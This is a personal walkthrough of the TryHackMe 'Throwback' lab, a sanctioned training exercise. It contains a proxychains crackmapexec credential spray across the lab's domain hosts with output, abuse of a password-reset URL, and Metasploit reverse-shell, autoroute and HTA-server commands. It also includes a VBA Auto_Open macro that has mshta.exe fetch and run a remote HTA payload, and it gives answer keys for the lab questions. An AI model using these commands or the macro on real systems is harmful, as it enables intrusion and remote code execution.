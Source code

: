 # You're Five Minutes Late...
Continuing on from the last task I add a FoxyProxy proxy to the AttackBox then my box as I read that I have do crackmapexec again. One more connective nightmare ahead I got lunch and started rolling my head over the keyboard till the everthing was re-re-re-re-re-re-setup again. I feel like I have learnt alot from this, but it really cost my motivation. I am now certain that using both the openvpn proxy and the AttackBox causes this connectivity issue as the proxy uses the same address for tun0. Check out my [Archive](https://github.com/7RU7H/Archive) project that has new section on Metasploit.


```bash
proxychains crackmapexec smb 10.200.102.0/24 -u SQLService -d THROWBACK.local -p mysql337570


SMB         10.200.102.117  445    THROWBACK-DC01   [*] Windows 10.0 Build 17763 x64 (name:THROWBACK-DC01) (domain:THROWBACK.local) (signing:True) (SMBv1:False)
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.200.102.117:445 SMB         10.200.102.176  445    THROWBACK-TIME   [*] Windows 10.0 Build 17763 x64 (name:THROWBACK-TIME) (domain:THROWBACK.local) (signing:False) (SMBv1:False)
 ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.200.102.117:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.200.102.117:445  ...  OK
SMB         10.200.102.117  445    THROWBACK-DC01   [+] THROWBACK.local\SQLService:mysql337570 
[proxychains] Strict chain  ...  127.0.0.1:1080 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.200.102.176:445  ...  10.200.102.202:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.200.102.176:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.200.102.176:445  ...  OK
SMB         10.200.102.176  445    THROWBACK-TIME   [+] THROWBACK.local\SQLService:mysql337570
...
...
SMB         10.200.102.219  445    THROWBACK-PROD   [*] Windows 10.0 Build 17763 x64 (name:THROWBACK-PROD) (domain:THROWBACK.local) (signing:False) (SMBv1:False)
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.200.102.219:445  ...  OK
SMB         10.200.102.222  445    THROWBACK-WS01   [*] Windows 10.0 Build 19041 x64 (name:THROWBACK-WS01) (domain:THROWBACK.local) (signing:False) (SMBv1:False)
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.200.102.219:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.200.102.219:445  ...  OK
<--socket error or timeout!
SMB         10.200.102.219  445    THROWBACK-PROD   [+] THROWBACK.local\SQLService:mysql337570 
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.200.102.222:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.200.102.222:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.200.102.222:445  ...  OK
<--socket error or timeout!
SMB         10.200.102.222  445    THROWBACK-WS01   [+] THROWBACK.local\SQLService:mysql337570 

```

I also ran another nmap scan and a smbmap through the the proxychains:
```bash
proxychains smbmap -u SQLservice -p mysql337570 -d THROWBACK.local -H 10.200.102.0/24
```


MurphyF has the email reset, make sure you have edited your /etc/hosts and use the foxyproxy to view the Throwback Hacks Timekeep
![MurphyF](5minuteMurphyFemail.png)

```txt
URL:

http://timekeep.throwback.local/dev/passwordreset.php?user=murphyf&password=PASSWORD
```


## Answers

What is the hostname of the device?  
```{toggle}
Throwback-TIME
```
What is the title of the web page?  
```{toggle}
Throwback Hacks Timekeep
```
What user was the password reset for?
```{toggle}
MurphyF
```



# Word to your Mother

```bash
proxychains curl "timekeep.throwback.local/dev/passwordreset.php?user=murphyf&password=PASSWORD"

use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost tun0
exploit -j

use post/multi/manage/autoroute
set session
set subnet 10.200.102.0
exploit

use auxiliary/server/socks_proxy
exploit -j

use exploit/windows/misc/hta_server
set payload windows/x64/meterpreter/reverse_tcp
set SRVHOST tun0
set lhost tun0
set lport 3333
set uripath pleasework.hta
exploit -j
```

Visual Basic Macro

```vb
Sub Hello()
	PID = Shell("mshta.exe http://IP:8080/pleasework.hta")
End Sub
	
Sub Auto_Open()
	Hello
End Sub
```

Turned on Firefox proxy, went to `http://timekeep.throwback.local/` entered murphyf:PASSWORD, uploaded the Timesheet.xlsm. **BUT**

```msconsole
[*] 10.200.102.176   hta_server - Delivering Payload
BUT NO shell...
```

I decided to let it run in the background as maybe it would spawn. I have one day of access left finish Throwback. Deciding that although the support at THM discord is great probably do not have the time to wait. Presuming that most networks don't have nice file upload to RCE and given I have the SQLservice password through proxychain crackmapexec. I read [0xkaram's](https://0xkaram.github.io/posts/Try-Hack-Me-Throwback-Write-Up/#6-throwback-prod--10200154219) I got to the `ipconfig /displaydns`, decide not to break to look up panic and scroll futher.  Here are the asnwers for this section. 
## Answers

What web server accepts XLSMs as a file upload?
```{toggle}
THROWBACK-Time
```
What page is the file upload in?  
```{toggle}
Timesheet.php
```
What is the name of the XLSMs that you can upload?
```{toggle}
Timesheet.xlsm
```

# To be continued...

Due to the fact that my RCE did not land and time, I decided to rush off-piste and try do this from now on off the rails. 



